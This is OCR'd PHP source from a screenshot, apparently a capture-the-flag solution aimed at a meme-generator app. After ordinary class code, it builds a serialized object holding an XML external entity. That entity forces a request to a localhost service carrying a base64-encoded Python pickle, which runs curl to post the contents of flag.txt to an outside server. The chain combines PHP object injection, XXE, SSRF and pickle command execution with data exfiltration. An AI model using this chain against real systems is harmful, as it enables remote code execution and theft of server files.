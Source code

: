 ```
      $this->bottom_text = $o->bottomtext;
      $this->template = $o->template;
      $this->type = $o->type;
    }

    function generate() {
      $this->parse();
      $meme_path = "https://giphy.com/embed/Vuw9m5wXviFIQ?try_harder";
      if ($this->type == IMAGE) {
        if (@is_array(getimagesize($this->path))) {
          $meme_path = MEMES_FOLDER . $filename . ".jpg";
          $args = array(
            "top_text"    => $top_text,
            "bottom_text" => $bottom_text,
            "filename"    => $meme_path,
            "font"        => FONT_BASE,
            "memebase"    => $this->path,
            "textsize"    => 40,
            "textfit"     => true,
            "padding"     => 10,
          );
          memegen_build_image($args);
        }
      }
      if ($this->type == TEXT) {
        if (!@is_array(getimagesize($this->path))) {
          $contents = file_get_contents($this->path);
          $meme = "  " . strtoupper($top_text) . "\n\n" . $contents . "\n  " . strtoupper($bottom_text);
          $meme_path = MEMES_FOLDER . $filename . ".txt";
          file_put_contents($meme_path, $meme);
        }
      }
      return $meme_path;
    }
    function __toString() {
        echo '<p>DEBUG: toString() hit</p>';
      $this->parse();
      $debug = "";
      $debug .= "Debug Info :\n";
      $debug .= "TopText => {$this->top_text}\n";
      $debug .= "BottomText => {$this->bottom_text}\n";
      $debug .= "Template Location => {$this->template}\n";
      $debug .= "Template Type => {$this->type}\n";
      return $debug;
    }
}

$test = new ConfigFile("asdf");

$test->config_raw = '<?xml version="1.0"?>
<!DOCTYPE root
[
<!ENTITY foo SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:1337/update-status?status=Y3Bvc2l4CnN5c3RlbQpwMQooUydjdXJsIC1YIFBPU1QgLWQgInwkKGNhdCBmbGFnLnR4dCl8IiBteXNlcnZlci5jb20nCnAyCnRScDMKLg==&debug=1">
]><test><toptext> &foo;</toptext></test>';

$serialized = base64_encode(serialize(array($test)));

// test to make sure array_merge still works
$new_memes = unserialize(base64_decode($serialized));
$qqq = array_merge($qqq, $new_memes);
```